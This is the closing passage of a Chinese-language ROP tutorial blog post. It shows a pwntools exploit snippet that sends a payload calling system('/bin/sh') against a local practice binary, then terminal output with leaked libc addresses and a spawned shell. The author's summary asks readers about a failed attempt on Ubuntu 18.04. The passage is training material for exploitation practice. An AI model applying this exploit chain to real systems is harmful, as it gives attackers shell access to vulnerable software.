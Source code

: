```python
# execute system("/bin/sh")
payload3 = genPayload(bssAddr+8, bssAddr)
p.send(payload3)
print("[*] Sent Payload3")
sleep(1)
p.interactive()
```

效果如下：
```shell
➜  linux_x64 git:(master) ✗ python ./shellcode5.py
[+] Starting local process './level5': pid 11820
[*] '/home/ya0guang/Code_obo/ROP_STEP_BY_STEP/linux_x64/level5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Write Addr in libc: 0x7f4fef8d71e0
[*] libc Addr: 0x7f4fef7ea000
[*] system Addr: 0x7f4fef8b3660
[*] Sent Payload2
[*] Sent Payload3
[*] Switching to interactive mode
$ whoami
ya0guang
```

# Summary & Gadgets
如果你看到这里并且复现成功了的话，就算是和我一样入了二进制的大坑了。我目前的水平也就限于此了。最近在啃RE4B这本书，讲汇编语言讲得还是很不错的，如果你还没有放弃的话可以和我一起啃。另笔者在尝试调用*system()*的时候永远无法返回shell，不知道是何问题，还望有识之士点拨一二。

同样的攻击在笔者的Ubuntu18.04物理机上攻击总是失败。用gdb调试跟进发现所有的地址，所有的参数都正确的情况下还是无法反弹shell，很郁闷，如果有碰到类似情况的还望告诉我。